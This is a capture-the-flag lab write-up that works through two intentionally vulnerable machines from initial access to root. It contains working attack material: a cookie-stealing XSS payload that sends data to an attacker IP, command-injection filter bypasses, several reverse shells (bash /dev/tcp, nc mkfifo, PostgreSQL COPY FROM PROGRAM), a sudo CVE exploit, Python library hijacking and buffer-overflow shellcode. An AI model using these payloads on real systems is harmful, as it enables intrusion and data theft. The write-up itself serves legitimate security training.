

# 🚩 CTF-Ex • Write Up - EN
<br>

**This write-up lists all the tasks to be completed as part of CTF-Ex.**
*For each step, the method and the solution are detailed to facilitate the completion and understanding of the challenges proposed.*

<br>

# Entry point

Let's connect to the network using the OpenVPN certificate provided. The VPN network is `10.8.0.0/24`.
The entry point of the target network is `172.16.10.0/24`.
We are going to make a Ping Sweep to identify machines in this network :
```bash
for i in {1..254} ;do (ping -c 1 172.16.10.$i | grep "bytes from" &) ;done
```


We identify a first machine at `172.16.10.10`.

# First machine
## Enumeration
We start the enumeration phase with a port scan using Nmap :
```bash
$ nmap 172.16.10.10
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-07 13:18 EST
Nmap scan report for 172.16.10.10
Host is up (0.068s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.66 seconds
```
We perform a more advanced scan :
```bash
$ nmap -sC -sV -p21,22,80 172.16.10.10
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-07 13:18 EST
Nmap scan report for 172.16.10.10
Host is up (0.023s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.16.10.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 3c:9f:b8:48:73:97:c1:1e:a0:5b:79:57:9a:ed:73:1f (ECDSA)
|_  256 3c:94:8e:0a:27:4c:ce:66:a1:c5:b2:2d:76:3b:ae:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.66
|_http-title: Did not follow redirect to http://prankex.io/
|_http-server-header: Apache/2.4.66 (Debian)
Service Info: Host: default; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.30 seconds
```
We can connect to the FTP with Anonymous login ! We're adding the HTTP redirection in our `/etc/hosts` file.
### FTP
We connect to the FTP :
```bash
ftp 172.16.10.10
```


We find a hidden file named `.note.txt` that we are going to download on our Kali :
```bash
get .note.txt
```


We read the file :


This file mentions an user named `dinohh` and the fact that the JWT signature isn't secure enough with `PRANKEX` as signature.
### HTTP
We access to the website `http://prankex.io` :


Subdomains enumeration didn't work.
The files enumeration reveals :
```bash
feroxbuster -w /usr/share/seclists/Discovery/Web-Content/raft-small-files.txt -u http://prankex.io --status-codes 200
```
*You need to have `Seclists` installed, on Kali : `sudo apt install seclists -y`.*


We find an endpoint `/secure_login` :


Simple SQL Injection don't work.
We are going to create an account : `ethanolle:ethanolle`
Once connected, we fall on this page :


There is not a lot of functionalities, we can just send a ticket in the `Request` tab :


When we create a ticket, we get a confirmation message saying that the ticket has been sent to `dinohh` :


We check the JWT token on Burp :


We go to [jwt.io](http://jwt.io) to try to enter the signature we found in the `.note.txt` file on the FTP server :


The signature verification failed... surely a rabbit hole.

## Foothold

We will focus on the only feature we have available, which is tickets. We will attempt to perform a stored XSS attack to retrieve the JWT token of the site administrator.
We will use this payload:
```javascript
<script>new Image().src="http://10.8.0.6:8686/cookie.php?c="+document.cookie;</script>
```
*From [Payload of All Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection).*

We insert the payload above into the "Message" section of the ticket and before sending it, we launch a Netcat listener :
```bash
nc -lvnp 8686
```


Bingo ! We've got the administrator cookie !
We enter it in Chromium and we get 2 new tabs `Logs` and `Tickets` :


## Exploitation

Nothing interesting in the `Tickets` tab. We just see our previous tickets :


We look in the `Logs` tab :


When selecting a date, you can see that it is entered in the `GET` parameter.


This parameter is not vulnerable to SQL injection (tested with SQLMap) :


We attempt an injection of commands, perhaps the log files are taken directly from the system via incorrect handling in PHP :


By adding `;id` after the date, we get :


It is indeed a PHP function that executes Bash code !
Trying to add a `#` does not work. We try using a line break :
⇒ [CyberChef Link](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=O2lkCg)


Bingo ! We have a command execution !
When trying to run `ls -la`, we get an error :


The space character seems to be blocked by a filter. Since this is bash, we can try replacing it with `${IFS}`.
**Payload (without URL-Encode):**
```bash
;ls${IFS}-la

```


It works !
It's a bit complicated to reverse shell directly, so instead we'll upload a bash script with our shell.
**Script Bash to get a shell :**
```bash
#!/bin/bash
bash -c 'exec bash >& /dev/tcp/10.8.0.6/8686 0>&1 &'
```

We now start a Netcat listener and a Web server Python in the directory of our script bash.
Our payload to download the reverse shell script is :
```bash
;wget${IFS}http://10.8.0.6:8181/rev.sh

```
After encoding it into a URL, our script is successfully downloaded :


We can see it here :


We set the execution rights on the script :
```bash
;chmod${IFS}777${IFS}rev.sh

```

Encode and send. Check :


Great ! Now let's run it :
```bash
;./rev.sh

```

Encode, send, and get a shell !


We stabilise the shell and find a flag in the current folder :
```bash
python3 -c 'import pty; pty.spawn("/bin/bash");'
export TERM=xterm
# CTRL+Z
stty raw -echo; fg
```


## Privilege Escalation

### www-data → mbappinho

We can identify two users via `/etc/passwd` :


⇒ `mbappinho` and `dinohh`

We find the web site database :


We download it on your Kali using a python Web Server :
```bash
# On the target machine
python3 -m http.server 8181

# On our Kali
wget http://prankex.io:8181/app.db
```


It's a SQLite3 database :


We find the `mbappinho`'s hash :
```bash
$ sqlite3 app.db

sqlite> .tables
```


Using Name-That-Hash, we can out the format :
```bash
# If not installed, on Kali :
sudo apt install name-that-hash

nth -f mbappinho.hash
```


⇒ `bcrypt`
Name-That-Hash gives us the Hashcat mode to break it :
```bash
hashcat -a 0 -m 3200 mbappinho.hash /usr/share/wordlists/rockyou.txt
```

It breaks quite quickly :


⇒ `mbappinho:realmadrid` 

We connect via SSH :
```bash
ssh mbappinho:realmadrid
```


We are connected but in a limited shell... we have few commands :


We can get the second flag :


### mbappinho → dinohh

We will try to get out of this limited shell with `vim`. We use this online cheatsheet : [Link](https://0xffsec.com/handbook/shells/restricted-shells/)


We try the "Command execution" but we get an error :


We try with "Bash" :


Bingo ! We successfully escape the restricted shell !
Let's look at the commands that `mbappinho` can execute as sudo :


We can execute a Python script as `dinohh`. Let's launch it :


Let's check the script :
```python
import random
import os
import signal
import time

def roulette():
    chiffre = random.randint(1, 3)
    print(f"Lottery result : {chiffre}")

    if chiffre == 2:
        print("RESPECT, 2% OF LUCK :BASED:")
        time.sleep(3)
    else:
        print("HAH too guez !")

if __name__ == "__main__":
    roulette()
```

We realise that the script directory is world-writable :


We can perform Python Library Hijacking by writing a Python script in the script folder with the name of a library that is called in the code (such as `random.py` or `time.py`). For imports, Python first looks in the current script folder to see if the library is present.

We write a shell in the Python script :
```bash
echo "import subprocess; subprocess.call('/bin/bash');" > random.py
```
We restart the script :
```bash
sudo -u dinohh /usr/bin/python3 /opt/dingz/roulette.py
```


Perfect ! We have a shell as `dinohh` !
We find the third flag :


To obtain more stable access, we retrieve the RSA SSH private key for `dinohh` :


We also found :


It looks like base64 :


⇒ `postgres:MYBADIGUESS_SQL`

It may be useful later on.

### dinohh → root

We look at the commands that `dinohh` can execute as sudo and find :


It is not directly vulnerable to becoming `root`.
Let's look at the version of sudo :


This version of sudo is vulnerable to CVE-2019-14287 !
⇒ https://www.exploit-db.com/exploits/47502

By running `sudo -u#-1`, you can execute commands as `root`.

Go to GTFOBins to see if you can spawn a shell with the `sed` binary :


Yes, we can!
So we do :
```bash
sudo -u#-1 /usr/bin/sed -n '1e exec /bin/bash 1>&0' /etc/hosts
```


Bingo! We are now `root`. We go to `/root`. We find two files :


We are told to look elsewhere for the rest of the lab and to use Ligolo-NG !

# Pivot Ligolo

On the machine `dollex_infra`, where we have just taken full control, we find :


This is a different subnet from the one we had basic access to.
We will perform a Ping Sweep :
```bash
for i in {1..254} ;do (ping -c 1 172.16.20.$i | grep "bytes from" &) ;done
```


To easily access the machine, we will launch a Ligolo proxy on our Kali and position a Ligolo agent on the `dollex_infra` machine to direct network traffic from our Kali to the new machine and vice versa. For the installation, check the [Ligolo-NG documentation](https://docs.ligolo.ng/).
On our Kali :
```bash
sudo ./proxy -selfcert
```


We are going to create a new interface on Ligolo to host our agent :
```bash
ligolo-ng » interface_create --name pivot
INFO[0096] Creating a new pivot interface...            
INFO[0096] Interface created!
```
Add the corresponding route to the target subnet :
```bash
ligolo-ng » route_add --name pivot --route 172.16.20.0/24
INFO[0138] Route created.
```


On `dollex_infra`, after launching a Python HTTP server on our Kali in the Ligolo folder, we do the following :
```bash
wget http://10.8.0.6:8181/agent && chmod +x agent
```
And we launch the agent in the background :
```bash
nohup ./agent -connect 10.8.0.6:11601 -ignore-cert >/dev/null 2>&1 &
```


Back on our proxy, we retrieve the session and associate the agent with the newly created interface :


We can now reach all machines on the subnet `172.16.20.0/24` from our machine :


# Second machine
## Enumeration

We scan the new machine found (`172.16.20.20`) using Nmap :
```bash
$ nmap 172.16.20.20
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-09 11:27 EST
Nmap scan report for 172.16.20.20
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.80 seconds
```
Advanced scans :
```bash
$ nmap -sC -sV -p22,80 172.16.20.20
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-09 11:27 EST
Nmap scan report for 172.16.20.20
Host is up (0.019s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 1b:1d:e0:61:d7:7f:d8:7e:51:e0:31:c0:f0:15:0e:38 (ECDSA)
|_  256 0d:47:33:f2:40:79:0c:01:8c:5a:c8:57:cb:fe:26:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.66 ((Debian))
|_http-title: The Premium Doghouse
|_http-server-header: Apache/2.4.66 (Debian)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.42 seconds
```

### HTTP

When accessing the HTTP server, we arrive at this page :


We have authentication. It looks pretty robust. When you click on `Lost your leash?`, a modal window opens :


Perhaps there is something hidden in this picture ! At least, that is what the title would have us believe...
The enumeration does not reveal anything of interest.

## Foothold

We download it onto our machine and see if we can extract anything with `steghide` :
```bash
steghide extract -sf cosmo.jpg
```


There is a passphrase ! We will use `stegseek` to try to find it :
```bash
stegseek cosmo.jpg /usr/share/wordlists/rockyou.txt
```


This produces a hidden spreadsheet file! Rename it with `mv cosmo.jpg.out backup.xlsx`. Use `gnumeric` to open the spreadsheet :
```bash
gnumeric backup.xlsx
```


When trying the credentials on the website, an error occurs :


And we realise that a column is hidden !


And we find the password :


Little joker Cosmo 😋!

We log in to the website :


## Exploitation

We arrive at this web page :


When trying to upload a malicious PHP file, the following error appears :


The upload filter looks robust.
There’s another feature just below that lets you view “official” images from the site :


The image path is submitted via POST :


We check whether there is an Local File Inclusion :


Bingo ! We can also access the Apache2 logs !


We’re going to try log poisoning to get remote code execution. To do this, we’ll inject malicious PHP code into the `User-Agent` header to see if, when combined with the LFI, it’s possible to parse it and execute commands.
We send :


We are displaying the logs again :


They’re cleaned quite often, but we’ve still got our result !
We’re going to try sending this reverse shell :
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.0.6 8686 >/tmp/f
```


We reload the logs after starting a listener :


We stabilise it and we find a flag in the `/var/www/html` directory :


## Privilege Escalation
### www-data → postgres

At first look, there isn’t much of interest about the system, except for :


We also saw that there was a user called `postgres` on the system. We were unable to log in using the password we found earlier :


We attempt to access the database :
```bash
psql -U postgres -W -h 127.0.0.1
```


Bingo ! Here are the creds we saw earlier :


While searching on Internet, we find that we can read files and run system commands as `postgres` from the `psql` interface :
⇒ [Article Link](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767)

Here are some of the interesting points :


We are going to create a table called `shell` :
```bash
CREATE TABLE shell(output text);
```
And we launch a reverse shell :
```bash
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.0.6 8787 >/tmp/f';
```
But this reverse shell doesn't work for me, so I use :
```bash
COPY shell FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.8.0.6/8787 0>&1"';
```
Start a listener and run the command :


We stabilise the shell and find a flag :


### postgres → velkoz

Let’s take a look at the commands we can run as sudo :


OK, not bad ! We can now add our public key to the `authorized_keys` file on `velkoz` !
We retrieve our public key :


Copy it and enter the following command :
```bash
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC4vxqEh7EawbmvliisbrgFwsndP0pVwZufKZbxhfrS1inFiWKP+UxAqVpq8Z3sUfDdwlnX0NRl8ikfsyCeeGv91FGytfu1ApEdntwXEaDQ0RudoirKbmTPxvzvNTb9Kdqhm+E1mbnVgOurXNXwZlBj0oEg7rbUCE2ZoGkKE0WkSjZ3cG0ar4WYsm6wlwCavTK2UcDT2KUfoXT/TpmUsTylIHHEcQWREse16qIUKDj27tD1MwjChh7MT5mFml0xyrMGMvC0BLNc773rseu6TVe6J51zCBw1OWiklthz5gsQUzh9mbZlYfhv9sgwoANaercC15gQHUsEnswQYJl+794Lw8t+sP8OHGKz9QZrBMS5POSzbZmIH8xBbgoY0kYziWScv/rZFot/oRcQ6IJ1mqrZY4bFAWDv4PgtU2Gd3LC8u2oWKzEVcIuwS2wSQwmv88JRsJBsEiWHlVdT0jWwTkWcRI6CFMCYe7BX18fZItsjUSlbVUKknr6nLp8yN57UhHuv5O4rXlpI3WrdgGf9XyA8ICUlhHE08Wyi5rqQBrpasmwAI1tK60dPaRwhMaVLQYqEUcGLJFI4IIbivlEPfqMGnaH09CcHoPJSro1H//EhuW2YgJtg+HxxzOWuBzIxni7e7KzLizuUxB31+qKjxsnD8y0e48Jeo+Gz+pzfoO+61Q== kali@kali' | sudo -u velkoz /usr/bin/tee -a  /home/velkoz/.ssh/authorized_keys
```


It seems to have worked. Let’s try connecting via SSH :


Bingo ! We get the flag :


### velkoz → root

Here’s what we find :


That SUID binary is a bit strange. Let’s take a look at the strings in the executable using :
```bash
strings evasion
```


There are functions which, if mishandled, can be dangerous when the SUID bit is set. Let’s run it :


That lad’s a bit of a angry ! Let’s try `velkoz`, as we spotted his name in the `strings` dump :


Ok, that’s what we expected.
Let’s look at the type of executable :


It is a 64-bit executable compiled in C (ELF).
Let’s do a quick test of how the system handles the text entered into the name input field by entering a very long name :


We’ve got a Seg Fault ! That’s a good sign for a buffer overflow. To store a string (such as the name here), the programme reserves a block of memory (a buffer) to hold it. If someone sends far more data than expected and the programme doesn’t check what’s coming in, it carries on writing beyond the reserved area. This overwrites important information.

While exploring the system, we find a very powerful debugger for CTFs : GDB with PEDA. GDB on its own is clunky and not very optimised for CTFs, but with PEDA, it’s brilliant ! It’ll help us exploit the Stacked-Based Buffer Overflow.
We'll keep an eye on this article :
⇒ [iRedTeam - 64bits Stack Based Buffer Overflow](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow)


We launch GDB with the vulnerable binary :


We send the command `run` :


We’ve got our Seg Fault. We look at the RIP register, as this is the register that points to the next instruction to be executed. If we can correctly manipulate our input data, we’ll be able to overwrite this register and manipulate the programme’s next instruction. The aim is to work out how many "characters" (the offset) we need to set to reach the register containing the next instruction.

GDB-Peda allows us to create a `pattern` to easily detect the offset.

We do :
```bash
pattern_create 200
```


This gives us a long string of characters, which we will put into the input field :


Next, we run the `pattern_search` command and GDB will find the offset automatically :


So we have an offset of 88.

To generate this easily, we’ll use `python2.7` as it’s the only one installed. To check whether we’re overwriting our RIP, we do :
```bash
gdb-peda$ r < <(python2.7 -c "print 'A'*88 + '\x42\x42\x42\x42\x42\x00\x00'")
```

`\x42` corresponds to the letter B in hexadecimal. The 64-bit address must be in canonical form for the RIP to accept it. This is why the RIP did not overflow when we entered the pattern. We use the letter B so that it is clearly visible in the return value.


Perfect! The RIP register has been successfully overwritten with an address we control.
We’re going to retrieve some shellcode to spawn a root shell.

We’ll export it to an environment variable called `PWN` :
```bash
export PWN=`python2.7 -c 'print "\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05"'`
```

We now need to run `evasion` with the environment variable to find out the shellcode’s address and load it into the RIP. To do this, we’ll use this C code, which we’ll compile :
```c
// code by Jon Erickson, page 147 and 148 of Hacking: The Art of Exploitation, 2nd Edition

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
	char *ptr;

	if(argc < 3) {
		printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
		exit(0);
	}
	ptr = getenv(argv[1]); /* get env var location */
	ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
	printf("%s will be at %p\n", argv[1], ptr);
}
```
Compile and run :


The shellcode address is therefore `0x7fffffffe7a4`. We can now create our final payload !
```c
(python2.7 -c "print 'A'*88 + '\x95\xe7\xff\xff\xff\x7f\x00\x00'"; cat) | ./evasion
```
Bingo !


We stabilise and retrieve the last flag :


CTF-Ex… FINISHED 💥

